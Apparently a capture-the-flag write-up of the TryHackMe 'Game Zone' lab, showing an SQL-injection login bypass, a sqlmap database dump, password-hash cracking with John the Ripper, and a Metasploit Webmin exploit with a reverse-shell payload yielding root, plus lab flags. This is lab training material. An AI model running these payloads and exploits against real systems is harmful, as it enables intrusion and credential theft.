 ## Game Zone

Task 1: Deploy the vulnerable machine

IP: 10.10.241.186

```
Nmap scan report for 10.10.241.186
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Task 2: Obtain access via SQLi

- SQL is the standard language for storing, editing, and retrieving data in databases. A query can look like so:
- 	SELECT * FROM users WHERE username = :username AND password := password

In the Game Zone machine, when you attempt to login, it will take your inputted values from your username and password, then insert them directly into the query above. If the query finds data, you'll be allowed to login otherwise it will display an error message.

By using a SQL injection: ' or 1=1 -- - , as the username and nothing as the password. I authenticates me.

This directs me to portal.php, I am now authenticated using the command. 


Task 3: Using SQLMap

SQLMap is an automatic SQL injection and database takeover tool. 

So the query packet can be intercepted and saved as request.txt or any file name.

```
$ sqlmap -r  /home/joey/ctf/tryhackme/rooms/game\ zone/sql-injection/request.txt --dbms=mysql --dump               

[22:51:45] [INFO] parsing HTTP request from '/home/joey/ctf/tryhackme/rooms/game zone/sql-injection/request.txt'
[22:51:45] [INFO] testing connection to the target URL
[22:51:45] [INFO] checking if the target is protected by some kind of WAF/IPS                                                     
[22:51:45] [INFO] testing if the target URL content is stable
[22:51:46] [INFO] target URL content is stable
[22:51:46] [INFO] testing if POST parameter 'searchitem' is dynamic        
[22:51:46] [WARNING] POST parameter 'searchitem' does not appear to be dynamic

-- SNIP --
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

[22:58:41] [INFO] table 'db.users' dumped to CSV file '/home/joey/.local/share/sqlmap/output/10.10.241.186/dump/db/users.csv'
[22:58:41] [INFO] fetching columns for table 'post' in database 'db'
[22:58:41] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[22:58:41] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name| description|
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11| Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.|
| 2  | Marvel Ultimate Alliance 3 | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005 | Best game ever|
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[22:58:41] [INFO] table 'db.post' dumped to CSV file '/home/joey/.local/share/sqlmap/output/10.10.241.186/dump/db/post.csv'
[22:58:41] [INFO] fetched data logged to text files under '/home/joey/.local/share/sqlmap/output/10.10.241.186'

[*] ending @ 22:58:41 /2021-11-24/
```

Task 4: Cracking a password with JohnTheRipper

John the Ripper (JTR) is a password cracker. 

This program works by taking a wordlist and hashing it with a specified algorithm, The encoded password is Sha256.
```
$ john password_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
Created directory: /home/joey/.john

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
1g 0:00:00:01 DONE (2021-11-25 00:01) 0.7299g/s 2128Kp/s 2128Kc/s 2128KC/s vimivi..veluca
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed


$ cat john.pot
$SHA256$ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14:videogamer124


$ ssh agent47@10.10.241.186

The authenticity of host '10.10.241.186 (10.10.241.186)' can't be established.
ED25519 key fingerprint is SHA256:CyJgMM67uFKDbNbKyUM0DexcI+LWun63SGLfBvqQcLA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.241.186' (ED25519) to the list of known hosts.
agent47@10.10.241.186's password: 

user.txt
agent47@gamezone:~$ la
.bash_history  .bash_logout  .bashrc  .cache  .profile  user.txt
agent47@gamezone:~$ cat user.txt 
649ac17b1480ac13ef1e4fa579dac95c
agent47@gamezone:~$ 
```

Task 5: Exposing services with reverse SSH tunnels

Reverse SSH port forwarding specified that the given port on the remote server host is to be forwarded to the given host and port on the local side.

-L is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do ssh -L 9000:imgur.com:80 user@example.com. Goint to localhost:9000 on your machine, will load imgur traffic using your other server. 

-R is a remote tunnel (YOU --> CLIENT). You forward your traffic to other server for others to view. 

```
$ ss
```

This tool is used to investigate sockets running on a host.

```
	$ ss -tulpn
	Netid	State		Recv-Q 	Send-Q	Local Address:Port	Peer Address:Port              
	udp		UNCONN		0		0		*:10000				*:*
	udp		UNCONN		0		0		*:68				*:*      
	tcp		LISTEN		0		80		127.0.0.1:3306		*:*
	tcp		LISTEN		0		128		*:10000				*:*
	tcp		LISTEN		0		128		*:22				*:*
	tcp		LISTEN		0		128		:::80				:::*
	tcp		LISTEN		0		128		:::22				:::*
```

There is an exposed port at 10000. This is inaccessible from the local machine so I can tunnel it back to the local machine with an SSH tunnel.

```
	$ ssh -L 10000:localhost:10000 agent47@10.10.241.186

	$ firefox 10.10.241.186:10000

```

I can login with the agent47 username and password.


Task 6: Privilege Escalation with Metasploit

For this part I needed to use the searchsploit to find relevant exploits.
```	
$ searchsploit webmin 1.580
---------------------------------------------------------------------------
 Exploit Title	|  Path

Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)| unix/remote/21851.rb
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit) | /webapps/47330.rb


$ msfconsole 

search webmin

Matching Modules
================

   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution

$ use exploit/unix/webapp/webmin_show_cgi_exec

$ set RHOSTS 127.0.0.1
$ set LHOST tun0
$ set payload cmd/unix/reverse
$ set SSL false

$ exploit

whoami
root
cd /root/
cat root.txt
a4b945830144bdd71908d12d902adeee
```

## Complete

